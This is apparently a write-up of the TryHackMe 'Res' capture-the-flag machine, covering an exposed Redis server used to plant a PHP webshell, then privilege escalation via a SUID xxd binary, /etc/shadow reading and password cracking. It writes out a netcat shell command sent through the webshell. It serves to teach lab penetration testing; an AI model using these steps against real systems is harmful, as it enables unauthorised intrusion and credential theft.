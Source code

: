 # Res - Tryhackme Writeup

Res is a vulnerable machine on TryHackMe. Though this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is totally insecure to let it be exposed over network. Redis does not have access control implementation and also it does not support encryption.

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

Nmap scan to find out the open ports and services

```nmap -sV  -sC -p- 10.10.131.41```

![nmap scan](/images/nmap_scan.png)

From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.

## Vulnerability Identification

1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code

![Web Application on Port 80](/images/web_application.png)

Next I ran a directory scan using Dirbuster to look for any hidden directories or files. but no hidden directories was found.

![web directory enumeration screenshot](/images/dirbuster.png)

Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.

##Exploitation

To access Redis on 10.10.131.41, I installed redis-tools on my kali machine

```sudo apt-get install redis-tools```

![redis_tools installation screenshot](/images/redis_tools.png)

I try to connect to a Redis server without a password and I was successfully connected to Redis server.

![redis connect screenshot](/images/connect_redis.png)

Running the “INFO” command listed out the redis version, operating system, architecture, and more.

![redis info screenshot](/images/info_redis.png)


Writing a php script and saving it to the web directory

![Webshell screenshot](/images/webshell.png)

Shell writing is complete, executing it on the target machine

![Webshell execution screenshot](/images/webshell_execution.png)

Make a netcat connection to the attacker IP

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```

![access screenshot](/images/user.png)

##Post-Exploitation

###Privilage Escalation

SUID bit is set for xxd

![suid screenshot](/images/xxd_0.png)

Referencing [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), I learnt that xxd may be used to do privileged reads or disclose files outside a restricted file system. Using this capabilities, I gained read access of /etc/shadow file.

![xxd screenshot](/images/xxd.png)


Local user password hash from /etc/shadow file was found

![password hash screenshot](/images/shadow.png)

Using john the ripper, I cracked the local user password. 

![password cracked screenshot](/images/john.png)

Once I logon as the user. I found that the user has full sudo privileges. Using this privilage, I was able to switch user as root and gain root access

Root access
![sudo screenshot](/images/root_access.png)







